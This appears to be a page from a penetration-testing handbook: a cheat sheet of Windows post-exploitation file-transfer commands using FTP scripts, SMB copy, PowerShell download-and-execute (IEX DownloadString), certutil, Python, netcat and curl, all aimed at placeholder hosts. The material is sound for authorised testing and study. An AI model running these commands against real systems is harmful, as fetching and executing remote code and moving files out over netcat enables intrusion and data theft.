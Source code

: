 # Windows

```bash
# FTP
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
```

[PreviousReverse Shells](https://pentestbook.six2dez.com/exploitation/reverse-shells)[Next](https://pentestbook.six2dez.com/post-exploitation/linux)
